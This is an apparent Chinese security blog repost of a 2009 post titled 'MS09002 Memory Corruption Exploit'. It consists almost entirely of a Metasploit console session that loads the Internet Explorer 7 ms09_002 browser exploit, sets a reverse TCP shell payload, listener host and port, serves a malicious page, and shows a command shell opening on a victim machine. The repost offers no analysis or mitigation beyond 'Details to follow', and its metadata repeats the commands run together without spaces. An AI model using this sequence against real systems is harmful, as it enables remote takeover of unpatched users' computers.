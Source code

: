 ```yaml
---
title: MS09002 Memory Corruption Exploit
description: MS09002MemoryCorruptionExploitDetailstofollow.:-)msf>useexploit/windows/browser/ms09_002msfexploit(ms09_002)>setPAYLOADwindows/shell_reverse_tcpPAYLOAD=>windows/shell_reverse_tcpmsfexploit(ms09_002)>setLPORT1701LPORT=>1701
date: 2009-02-20 09:26:11
category: 漏洞信息
tags: ['IE', '漏洞信息', 'exploit']
post_id: 790
alias: MS09002-Memory-Corruption-Exploit
ViewNums: 2826
---
```


[**MS09002 Memory Corruption Exploit**](/blog/ms09002-memory-corruption-exploit)

Details to follow. :-)

msf > use exploit/windows/browser/ms09_002
msf exploit(ms09_002) > set PAYLOAD windows/shell_reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
msf exploit(ms09_002) > set LPORT 1701
LPORT => 1701

msf exploit(ms09_002) > set LHOST 10.10.10.15
LHOST => 10.10.10.15
msf exploit(ms09_002) > set URIPATH ie7.html
URIPATH => ie7.html
msf exploit(ms09_002) > set SRVPORT 80
SRVPORT => 80
msf exploit(ms09_002) > exploit
[*] Exploit running as background job.
msf exploit(ms09_002) >
[*] Handler binding to LHOST 10.10.10.15
[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Using URL: http://0.0.0.0:80/ie7.html
[*] Local IP: http://10.10.10.15:80/ie7.html
[*] Server started.
[*] Sending [Internet Explorer 7 Uninitialized Memory Corruption Vulnerability](/blog/ms09002-memory-corruption-exploit) to 10.10.10.1:1865...
[*] Command shell session 1 opened (10.10.10.15:1701 -> 10.10.10.1:4387)

来源：[Carnal0wnage Blog](http://carnal0wnage.blogspot.com/2009/02/ms09002-memory-corruption-exploit.html)

